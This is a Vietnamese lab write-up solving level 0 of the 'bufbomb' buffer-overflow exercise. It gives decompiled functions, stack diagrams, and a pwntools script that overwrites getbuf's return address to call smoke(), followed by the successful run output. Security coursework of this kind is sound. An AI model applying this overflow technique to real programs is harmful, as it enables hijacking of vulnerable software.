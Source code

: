# Level 0
## Task
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
```
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
Dud: getbuf returned 0x1
Better luck next time
```
> Yêu cầu: Buffer overflow để thực thi hàm `smoke()` từ hàm `test()`.

## Solution
Mở IDA Pro 32bit và xem pseudocode của hàm `test()`.  

```c
int test()
{
  int v1; // [esp+8h] [ebp-10h]
  int v2; // [esp+Ch] [ebp-Ch]

  v1 = uniqueval();
  v2 = getbuf();

  if ( uniqueval() != v1 )
    return puts("Sabotaged!: the stack has been corrupted");
  if ( v2 != cookie )
    return printf("Dud: getbuf returned 0x%x\n", v2);
  printf("Boom!: getbuf returned 0x%x\n", v2);
  return validate(3);
}
```  

Có thể thấy, ở trong hàm `test()` có hàm `getbuf()` được dùng để đọc chuỗi vào buffer. Vậy chúng ta tiến hành xem pseudocode của hàm `getbuf()`.  
```c
int getbuf()
{
  char v1[40]; // [esp+0h] [ebp-28h] BYREF

  Gets(v1);
  return 1;
}
```  

Từ đoạn pseudocode trên thì ta có thể thấy, `buffer` sẽ có độ dài là 40 (`0x28`) bytes và `buffer` này sẽ được truyền vào hàm `Gets()` để thực hiện việc đọc chuỗi từ console.  

Trước khi hàm `Gets()` được thực thi, stack của chúng ta sẽ như sau:  
```
+---------------------------------+
|     return address (getbuf)     |---> return address của hàm getbuf()
+---------------------------------+
|      ebp (getbuf's caller)      |---> ebp của hàm gọi getbuf()
+---------------------------------+
               .
               . => 0x24 bytes 
               .
+---------------------------------+
|              v1                 |---> top của stack
+---------------------------------+

```  

Vậy để thực thi được hàm `smoke()`, chúng ta sẽ tìm cách ghi đè địa chỉ của hàm `smoke()` vào ô nhớ stack chứa địa chỉ trả về của hàm `getbuf()` (như hình ảnh minh họa ở trên). Do đó, payload của chúng ta phải có độ dài `0x28 + 0x4 + 0x4` (với `0x28` bytes để fill hết toàn bộ buffer được cấp, `0x4` tiếp theo để ghi đè `ebp` của hàm `getbuf()` và `0x4` cuối cùng chính là địa chỉ của hàm `smoke()`.  

Ở hàm `smoke()`, nếu chúng ta gọi hàm thành công thì chuỗi `Smoke!: You called smoke()` sẽ được in ra console.  
```c
void __noreturn smoke()
{
  puts("Smoke!: You called smoke()");
  validate(0);
  exit(0);
}
```

### Script
Để hiện thực hóa ý tưởng trên thì chúng ta sẽ dùng module `pwn` của Python.  

```python
#! /bin/python3

from pwn import *

context.binary = './bufbomb'

# tạo 1 tiến trình tới chương trình bufbomb
io = process(['./bufbomb', '-u', '09821978'])

# tạo 1 ELF object để đọc metadata của hàm bufbomb
e = ELF('./bufbomb')

# tạo payload với (0x28 + 0x4) ký tự 'A'
exploit_payload = b'A'*(0x28 + 4)

# lấy địa chỉ của hàm smoke() và thêm vào payload
exploit_payload += p32(e.symbols['smoke'])

print(f"exploit payload: {exploit_payload}")

# nhập payload vào tiến trình bufbomb
io.sendline(exploit_payload)

# hiển thị kết quả
io.interactive()
```  

Stack khi bị buffer overflow:  
```
+---------------------------------+
|     địa chỉ của hàm smoke()     |---> return address của hàm getbuf()
+---------------------------------+
|             'AAAA'              |---> ebp của hàm getbuf()
+---------------------------------+
               .
               . => 0x1C bytes 
               .
+---------------------------------+
|             'AAAA'              |
+---------------------------------+
|             'AAAA'              |
+---------------------------------+
|             'AAAA'              |---> top của stack
+---------------------------------+

```

Chạy script:  

```
└─$ ./level0.py
[*] '/mnt/f/src-team-1/bufbomb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './bufbomb': pid 52
exploit payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xeb\x9a\x13\x80'
[*] Switching to interactive mode
[*] Process './bufbomb' stopped with exit code 0 (pid 52)
Userid: 09821978
Cookie: 0x31f21393
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
[*] Got EOF while reading in interactive
$
```  
> Thành công!
